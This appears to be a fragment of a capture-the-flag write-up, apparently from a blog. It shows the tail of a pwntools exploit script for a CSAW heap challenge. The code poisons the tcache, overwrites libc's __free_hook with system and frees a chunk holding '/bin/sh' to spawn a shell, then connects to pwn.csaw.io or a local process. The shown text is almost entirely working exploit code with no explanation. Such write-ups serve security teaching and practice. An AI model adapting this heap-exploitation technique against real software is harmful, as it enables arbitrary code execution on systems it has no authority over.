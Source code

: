     content_add(20)

    content_delete(0)
    content_delete(1)
    content_delete(2)
    content_delete(3)
    
    keys_add(20)
    keys_add(20)
    keys_add(20)
    keys_add(20)
    content_add(20)
    content_add(20)
    content_add(20)
    keys_modify(3, "0", "/bin/sh")
    keys_modify(4, "0", "/bin/sh")
    keys_modify(2, "0", "/bin/sh")

    content_delete(0)
    content_delete(1)
    content_delete(2)
    keys_add(50)
    keys_add(50)
    keys_modify(0, "19", "/bin/sh\x00"*2)
    keys_modify(1, "19", "/bin/sh\x00"*2)
    keys_modify(2, "19", p64(libc_free_hook)*2)
    keys_modify(3, "19", p64(libc_free_hook)*2)
    keys_modify(4, "19", p64(libc_free_hook)*2) # tcache poisoned
    # content_delete(3)
    keys_add(20)
    keys_add(20)
    keys_modify(5, "19", p64(libc_free_hook)*2)
    keys_modify(8, "19", p64(libc_system))

    content_delete(3)
    
    
    


    r.interactive()



if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("pwn.csaw.io", 9998)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)
{% endhighlight %}
